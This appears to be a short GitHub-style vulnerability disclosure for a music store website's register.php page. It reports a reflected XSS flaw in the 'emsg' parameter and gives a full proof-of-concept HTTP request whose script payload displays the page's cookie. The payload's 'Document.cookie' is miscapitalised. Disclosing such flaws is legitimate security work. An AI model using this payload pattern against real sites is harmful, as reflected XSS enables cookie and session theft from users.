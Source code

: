 # vulnerability music store website

![](/docs/vuln_website.png)

## description

The emsg GET parameter used for prompt error message in case of missing field in register form is vulnerable to reflected XSS.
Is possible to inject javascript code and prompt document cookie.

## vulnerability 

```GET /mw/register.php?emsg=%3Cscript%3Ealert(Document.cookie)%3C/script%3E HTTP/2
Host: vulnhost.com
Cookie: PHPSESSID=tttbitb72h0efdddda4ft9q8e2f
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```
## Description01:

JavaScript can be injected into the application (a vulnerable app - register.php, no sanitizing emsg GET parameter).


